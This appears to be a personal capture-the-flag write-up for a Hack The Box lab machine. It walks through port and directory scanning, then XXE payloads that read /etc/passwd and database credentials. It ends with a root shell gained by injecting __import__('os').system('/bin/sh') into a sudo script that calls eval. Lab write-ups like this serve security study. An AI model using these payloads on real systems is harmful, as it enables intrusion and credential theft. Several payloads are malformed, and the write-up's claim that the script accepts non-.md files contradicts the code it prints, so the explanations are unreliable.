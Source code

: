 HTB - Bughunter (easy)  
**bug**: xxe  

**nmap**  
``sudo nmap -sVC -p- -v -Pn -T5 rhost -oN nmap

**dir enum**  
``ffuf -u https://rhost/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -ic -c -e .php,.html,.txt,.js

![[Pasted image 20250505192056.png]]

go to https://rhost/portal.php    
check sources
click 
https://rhost/log_submit.php
open burp
capture request on submit
you can see POST request to /tracker_diRPrOOf314.php
check data to inspector
the data is base64 and url encoded 

![[Pasted image 20250505191745.png]]

----
**exploitation thru XXE**
capture POST request 
https://rhost/tracker_diRPrOOf314.php
you can see XML format being rendered in frontend
the title (entity) including its values are reflected

**(encoding)** use Hackverter ext on burp suite
select Encode tab
select urlencode and base64


**sensitive file read XXE**
change the requested XML with this edited request

```
data=@urlencode><@base64><?xml version-"1.0" encoding="ISO-8859-1"?>
<!DOCTYPE title
	<!ENTITY variable SYSTEM "file:///etc/passwd">
]>
<bugreport>
<title=&variable;</title>
<cwe>bisan unsa</cwe>
<cvss>6.9</cvss>
<reward>96969696</reward>
</bugreport></@base64></@urlencode>
```

![[Pasted image 20250505191530.png]]


**getting admin creds thru XXE php filtering wrapper**
we can get the admin creds thru the ``db.php`` that we found on thru the directory bruteforce
data:
```
data=@urlencode><@base64><?xml version-"1.0" encoding="ISO-8859-1"?>
<!DOCTYPE title
	<!ENTITY variable SYSTEM "php://filter/convert.base64-encode/resource=db.php">
]>
<bugreport>
<title=&variable;</title>
<cwe>bisan unsa</cwe>
<cvss>6.9</cvss>
<reward>96969696</reward>
</bugreport></@base64></@urlencode>
```

![[Pasted image 20250505192735.png]]

copy the td and go to terminal
echo "the td data type shit" | base64 -d
connect to the machine with SSH

----
**finding privesc path**

the user ``development`` has user privilege
run ``sudo -l`` to check it
now you can see a script that requrires ``NOPASSWD`` to run

![[Pasted image 20250506105932.png]]

TicketValidator.py python script:
```
#!/usr/bin/env python3

def load_file(loc):
    if loc.endswith(".md"):
        return open(loc, 'r')
    else:
        print("Wrong file type.")
        exit()

def evaluate(ticketFile):
    #Evaluates a ticket to check for irregularities.
    code_line = None
    for i, x in enumerate(ticketFile.readlines()):
        if not x.startswith("# Skytrain Inc"):
            return False
        if i == 1:
            if not x.startswith("## Ticket to "):
                return False
            print(f"Destination: {''.join(x.strip().split(' ')[2:])}")
            continue
        if x.startswith("# Ticket Code: "):
            code_line = i+1
            continue
        if code_line and i == code_line:
            if not x.startswith("**"):
                return False
            ticketCode = x.replace("**", "").split("*")[0]
            if int(ticketCode) % 7 == 4:
                validationNumber = eval(x.replace("**", ""))
                if validationNumber > 100:
                    return True
                else:
                    return False
            return False
    return False

def main():
    fileName = input("Please enter the path to the ticket file.\n")
    ticket = load_file(fileName)
    #DEBUG print(ticket)
    result = evaluate(ticket)
    if (result):
        print("Valid ticket.")
    else:
        print("Invalid ticket.")
    ticket.close

main()
```

**flaws in the script**
the script asks for a `.md` for tickets, but it still continues even if it's not `.md`
so we can craft even a `.txt` file to act like a ticket and feed it to the script

here's what i came up with
```
# Skytrain Inc
## Ticket to Anywhere
# Ticket Code:
**__import__('os').system('/bin/sh')**
```

what it does is, it gives the script the minimum requirements it asks for tickets to be valid 
Line 1: `# Skytrain Inc` satisfies the first-line check.
Line 2:` ## Ticket` to Anywhere meets the second-line requirement (the destination can be anything).
Line 3: `# Ticket Code`: indicates the next line is the ticket code.
Line 4: ``**__import__('os').system('/bin/sh')**`` is the payload.

after that, it executes the `bin/sh` to spawn a root shell to the target machine
VOILA! BountyHunter PWNED!